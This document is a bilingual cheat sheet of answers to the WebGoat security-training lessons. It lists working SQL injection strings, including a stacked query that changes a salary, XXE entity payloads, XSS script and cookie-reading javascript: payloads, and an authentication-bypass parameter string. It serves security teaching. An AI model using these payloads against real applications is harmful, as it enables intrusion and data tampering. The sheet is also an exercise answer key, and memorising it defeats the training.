 # Cheatsheet

https://github.com/WebGoat/WebGoat/wiki/Main-Exploits

## CIA TRIAD
[Descripción de CIAD](https://www.forcepoint.com/es/cyber-edu/cia-triad)

1- Solution 3: By stealing a database where names and emails are stored and uploading it to a website.
2- Solution 1: By changing the names and emails of one or more users stored in a database.
3- Solution 4: By launching a denial of service attack on the servers.
4- Solution 2: The systems security is compromised even if only one goal is harmed.

## Crypto basics

### 2

[Encoding](https://www.w3.org/International/questions/qa-what-is-encoding)
[Encode64](https://www.base64decode.org/)

### 3

[XOR IBM](https://strelitzia.net/wasXORdecoder/wasXORdecoder.html)

`databasepassword`

### 4

[MD5](https://www.md5online.org/md5-decrypt.html)
[SHA256](https://hashes.com/es/decrypt/hash)

### 5
Symmetric - Misma llave
-  Is an older method of encryption, it is faster and more efficient than asymmetric encryption, which takes a toll on networks due to performance issues with data size and heavy CPU use.
-  Is typically used for bulk encryption / encrypting large amounts of data, e.g. for database encryption. In the case of a database, the secret key might only be available to the database itself to encrypt or decrypt.


 Asymmetric - llave publica llave privada
 
# A1 Injection

## Intro

### 2

```SQL
select employees.department from employees where first_name = 'Bob' and last_name = 'Franco';
```
### 3

```SQL
UPDATE employees SET department = 'Sales' WHERE first_name = 'Tobi' and last_name = 'Barnett';
```
### 4

```SQL
ALTER TABLE employees ADD phone varchar(20);
```
### 5

```SQL
GRANT ALTER TABLE to 'UnauthorizedUser';
```
### 9

```
Smith'
or 
'1' = '1 
```

### 10

```
1
'1' or true = true
```

### 11

```
'" or true = true or '1' = '"
3SL99A
```


### 12

```
Smith
3SL99A'; update employees SET salary = 90000 where first_name = 'John' and last_name = 'Smith 
```


## Access control flaws -  Guessing & Predicting Patterns

```
WebGoat/IDOR/profile/2342384
```

## XXE - Let's try

```xml
<?xml version="1.0" encoding='UTF-8'?>
<!DOCTYPE comment [
  <!ELEMENT comment (Activity)>
  <!ELEMENT Activity (#PCDATA)>
  <!ENTITY xxe SYSTEM "..">
]>
```
## Modern REST framework

```xml
<?xml version="1.0" encoding='UTF-8'?>
<!DOCTYPE comment [
  <!ELEMENT comment (Activity)>
  <!ELEMENT Activity (#PCDATA)>
  <!ENTITY xxe SYSTEM "..">
]>
<comment><text>&xxe;</text></comment>
```

## Try It! String SQL Injection

```
Smith' and '1'='1
```

## Try It! Numeric SQL Injection

```
101 OR TRUE
```

## SQL Injection (mitigation) - ZAP

```
192.168.6.4
```

## Authentication Bypasses - ZAP

```
secQuestion00=asd&secQuestion01=asd
```

## What is XSS

```
yes / no 
```

```
javascript:alert(document.cookie);
```

## Try It! Reflected XSS

Enter your credit card number:
```
<script>alert('my javascript here')</script>
```
## Identify Potential for DOM-Based XSS

```
start.mvc#test/
```

## Try It! DOM-Based XSS

Consola:
```
webgoat.customjs.phoneHome()
```
